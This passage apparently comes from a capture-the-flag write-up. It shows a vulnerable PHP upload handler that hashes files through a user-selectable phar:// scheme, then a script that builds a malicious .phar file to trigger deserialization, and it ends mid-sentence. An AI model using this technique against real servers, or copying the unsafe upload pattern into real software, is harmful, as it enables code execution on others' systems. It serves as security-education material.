 ```php
<?php

if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}

?>

</body>

</html>
```

It seems that we are able to upload files, which will be hashed using MD5 and then removed. The `s` POST parameter switches the URL scheme from `file://` to `phar://` which may be used to trigger a deserialization vulnerability.
After googling for a bit and following the steps in [this website](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/), we were able to create a valid `.phar` file using the following PHP script:

```php
<?php
class Wrapper {}

$dummy = new Wrapper();
// Only creates new class thing if this is set
$dummy->doit = "irrelevant!";

$phar = new Phar("payload.phar");
$phar->startBuffering();
$phar->setStub("<?php echo 'STUB here!'; __HALT_COMPILER();");
$phar["file"] = "text";
$phar->setMetadata($dummy);
$phar->stopBuffering();

?>
```

The choice of `Wrapper` for a class is due to the webserver having these two files, `wrapper.php` and `doit.php`:
